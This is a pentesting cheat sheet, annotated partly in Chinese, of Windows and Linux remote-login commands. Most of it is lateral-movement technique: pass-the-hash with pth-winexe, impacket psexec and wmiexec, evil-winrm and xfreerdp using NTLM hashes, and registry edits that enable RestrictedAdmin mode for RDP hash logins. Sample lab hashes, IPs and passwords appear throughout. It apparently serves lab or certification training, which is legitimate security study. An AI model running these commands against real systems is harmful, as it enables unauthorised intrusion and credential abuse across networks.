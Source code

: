 # windows

## pass the hash
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

## psexec
```
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash

impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:0109d7e72fcfe404186c4079ba6cf79c administrator@172.16.1.5
impacket-psexec 'cyber_adm:Passw0rd!'@172.16.1.24 

impacket-wmiexec -hashes :7facdc498ed1680c4fd1448319a8c04f administrator@172.16.4.31
```

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py  -hashes "af636dea707fa9cf431562c90e8a4044:af636dea707fa9cf431562c90e8a4044" Administrator@10.11.1.222
```


## evil-winrm

```
evil-winrm -i 10.11.1.221 -u 'john' -p 'easyas123'

evil-winrm -i 192.168.140.10 -u 'offsec' -H '2892d26cdf84d7a70e2eb3b9f05c425e'                              # pass the hash
```


## rdp
```
xfreerdp /u:offsec /p:'lab' /v:192.168.140.10 +clipboard 
xfreerdp /u:Administrator /pth:'' /v:10.11.1.221 +clipboard 

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:t2_henry.harvey /p:'max.123456'

xfreerdp /u:i.wood /p:'7@@$if*7l0E!9zFs' /w:600 /h:500 /v:10.10.120.102

xfreerdp /u:Offsec /p:'lab' /d:prod.corp1 /w:1600 /h:1000 /v:192.168.236.78  +clipboard 

rdesktop -d <domain> -u <username> -p <password> <IP>

rdesktop -u offsec -p lab 192.168.120.11 -g 100% -x 0x80

```


网络账户登录，不需要明文密码
>网络登录不需要明文凭证，也不会将其存储在内存中，本质上是禁用了单点登录。这种类型的登录方式通常由服务账户使用。 （A network login does not require clear text credentials and will not store them in memory, essentially disabling single sign-on. This type of login is commonly used by service accounts.）

开启restrictedadmin模式
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

关闭restrictedadmin模式
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```



# linux

普通登录
```
ssh root@10.10.10.233
```

证书登录
```
ssh root@10.10.10.233 -i id_rsa
```

带密码
```
sshpass -p '这里填ssh密码' ssh aaronkilik@10.42.0.1 '这里填要执行的linux命令' 

sshpass -p 'my_pass_here' ssh aaronkilik@10.42.0.1 'df -h' 
```



